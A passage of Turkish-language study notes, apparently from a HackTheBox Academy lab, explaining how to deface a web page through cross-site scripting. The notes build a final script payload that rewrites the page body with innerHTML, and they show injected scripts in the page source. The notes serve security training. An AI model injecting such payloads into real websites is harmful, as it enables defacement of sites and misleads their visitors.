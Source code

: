```javascript
document.getElementById("todo").innerHTML = "New Text"
```

Aynı şeyi daha verimli bir şekilde gerçekleştirmek veya tek bir satırda birden fazla öğenin metnini değiştirmek için jQuery işlevlerini de kullanabiliriz (bunu yapmak için jQuery kütüphanesinin sayfa kaynağına aktarılmış olması gerekir):

```javascript
$("#todo").html('New Text');
```

Bu bize web sayfasındaki metni özelleştirmek ve ihtiyaçlarımızı karşılamak için küçük ayarlamalar yapmak için çeşitli seçenekler sunar. Ancak, bilgisayar korsanlığı grupları genellikle web sayfasında basit bir mesaj bırakıp başka bir şey bırakmadıkları için, innerHTML kullanarak ana gövdenin tüm HTML kodunu aşağıdaki gibi değiştireceğiz:

```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

Gördüğümüz gibi, body öğesini document.getElementsByTagName('body') ile belirleyebiliyoruz ve [0] belirterek, web sayfasının tüm metnini değiştirmesi gereken ilk body öğesini seçiyoruz. Aynı şeyi başarmak için jQuery de kullanabiliriz. Ancak, payload'umuzu göndermeden ve kalıcı bir değişiklik yapmadan önce, HTML kodumuzu ayrı olarak hazırlamalı ve ardından HTML kodumuzu sayfa kaynağına ayarlamak için innerHTML kullanmalıyız.

```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```

İpucu: Nihai payload'umuzda kullanmadan önce nasıl göründüğünü görmek ve beklendiği gibi çalıştığından emin olmak için HTML kodumuzu yerel olarak çalıştırmayı denemek akıllıca olacaktır.

HTML kodunu tek bir satıra indirgeyeceğiz ve önceki XSS payload'umuza ekleyeceğiz. Nihai payload aşağıdaki gibi olmalıdır:

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

![Pasted image 20241116033257.png](/img/user/resimler/Pasted%20image%2020241116033257.png)


Sayfa kaynak kodu : 

```html
<div></div><ul class="list-unstyled" id="todo"><ul>
<script>document.body.style.background = "#141d2b"</script>
</ul><ul><script>document.title = 'HackTheBox Academy'</script>
</ul><ul><script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script>
</ul></ul>
```

